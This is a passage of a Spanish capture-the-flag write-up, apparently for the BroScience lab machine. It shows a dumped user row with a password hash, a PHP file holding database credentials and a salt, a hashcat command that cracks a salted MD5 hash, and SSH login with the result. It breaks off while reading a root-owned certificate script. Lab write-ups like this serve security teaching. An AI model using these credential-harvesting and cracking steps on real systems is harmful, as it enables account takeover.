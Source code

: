```php
    [4] => Array
        (
            [id] => 5
            [username] => dmytro
            [password] => 5d15340bded5b9395d5d14b9c21bc82b
            [email] => dmytro@broscience.htb
            [activation_code] => 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm
            [is_activated] => t
            [is_admin] => f
            [date_created] => 2021-08-13 10:34:36.226763-04
        )
)
```

`db_connect.php`

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```

Vemos que la salt es `NaCl`

Creamos el archivo bill.hash
`13edad4932da9dbb57d9cd15b66ed104:NaCl`

Y lo intentamos crackear con hascat

```bash
./hashcat.exe -a 0 -m 20 bill.hash rockyou.txt
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```

Obtenemos credenciales válidas para conectarnos por **SSH** y obtener `user.txt`

----
# root

Buscando en la carpeta `/opt` encontramos el archivo `renew_cert.sh`

```bash
cat /opt/renew_cert.sh
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
```